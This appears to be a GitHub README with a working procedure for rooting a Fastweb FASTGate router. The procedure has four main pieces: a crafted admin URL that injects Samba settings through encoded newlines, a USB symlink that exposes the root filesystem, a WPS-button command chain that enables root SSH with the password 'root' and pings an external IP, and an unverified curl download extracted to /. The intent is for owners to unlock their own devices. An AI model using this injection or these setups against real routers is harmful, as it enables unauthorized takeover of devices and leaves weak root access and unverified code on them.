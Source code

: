 ## Fastgate Rooting
How to get full access to your Fastgate, a widely used Router distributed by the ISP Fastweb in Italy.

## How does it work?
This trick uses a very old flaw available in basically every Technicolor router, you can have a USB return the root folder of the router by crafting a special symbolic link. 

## Getting Started

### Requirements

* A FASTGate DGA4131 (VBNT-O).
* An USB Drive.
* A Linux machine (a live version of Ubuntu should be ok, probably WSL too).

### Instructions

* Open up a terminal, navigate to the USB Drive path and type the following: `ln -s / rootlink`.
* Open up a browser, login to the FastFate admin page (it's usually available [here](http://192.168.1.254)).
* Once you logged on, click [here](http://192.168.1.254/status.cgi?3g_pin=********&act=nvset&samba_enabled=1&samba_workgroup=WORKGROUP%5c%0a%09security%20%3d%20share%5c%0a%09guest%20account%20%3d%20root%5c%0a%09interfaces%20%3d%20lo%20br-lan%5c%0a%5c%0a%5bohnonotagain%5d&service=usb_status).
* Plug the USB Drive into your router.
* Navigate to `\\192.168.1.254\usbdisk\rootlink` by using a SMB Client.
* Now you should be able to access the root folder of the router.
* Edit `/etc/inittab` by removing '#' from the last line `::askconsole:/bin/login`, if there's none just leave it as it is. This should turn the console login on, in case you screw your router heavily you should be backed up now.
* Edit `/etc/passwd` by removing `root:/bin/false` and adding `root:/bin/ash`. This allows using a shell for an eventual login.
* Edit `/etc/config/dropbear` as following (delete every other config involving SSH in this file, if there's any):

```
 config dropbear 'Example'
  option Interface 'lan'
  option Port '22'
  option IdleTimeout '600'
  option PasswordAuth 'on'
  option RootPasswordAuth 'on'
  option RootLogin '1'
  option enable '1'
 ```

* Edit `/etc/config/button` by editing `option handler 'wps_button_pressed_ssh.sh'` as always, leaving everything else by default:
 ```
 config button 'wps'
...
 option handler 'sed -i '\''s#/root:.*$#/root:/bin/ash#'\'' /etc/passwd && echo root:root | chpasswd && sed -i '\''s/#//'\'' /etc/inittab && (uci -q delete dropbear.afg || true) && uci add dropbear dropbear && uci rename dropbear.@dropbear[-1]=afg && uci set dropbear.afg.enable='\''1'\'' && uci set dropbear.afg.Interface='\''lan'\'' && uci set dropbear.afg.Port='\''22'\'' && uci set dropbear.afg.IdleTimeout='\''600'\'' && uci set dropbear.afg.PasswordAuth='\''on'\'' && uci set dropbear.afg.RootPasswordAuth='\''on'\'' && uci set dropbear.afg.RootLogin='\''1'\'' && uci commit dropbear && /etc/init.d/dropbear enable && /etc/init.d/dropbear restart && uci set button.wps.handler='\''wps_button_pressed.sh'\'' && uci commit && wget http://58.162.0.1/done || true'
```
* Now press thhe WPS Button on the router, this should trigger a Dropbear SSH server on port 22.
* You can login into your routher via SSH, use both `root` as username and password.
* Now you are suggested to install Ansuel GUI (a toolkit which is gonna bring your actual web interface on another level:
```
curl -k https://raw.githubusercontent.com/Ansuel/gui-dev-build-auto/master/GUI.tar.bz2 --output /tmp/GUI.tar.bz2
bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -
/etc/init.d/rootdevice force
```
* Enjoy your brand new router.
